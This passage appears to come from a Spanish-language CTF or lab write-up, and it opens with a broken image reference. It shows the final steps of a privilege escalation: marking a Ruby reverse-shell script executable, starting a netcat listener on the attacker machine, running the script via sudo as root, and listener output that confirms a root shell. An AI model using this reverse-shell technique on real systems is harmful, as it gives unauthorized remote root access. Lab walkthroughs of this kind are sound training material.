 ```bash
chmod +x rshell.rb
```

Ahora nos podemos en escucha desde nuestra maquina atacante:
```bash
nc -nlvp 444
```

Ejecutamos el script:
```bash
sudo -u root /home/alice/scripts/rshell.rb
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
listening on [any] 444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 53990
# whoami
root
```

---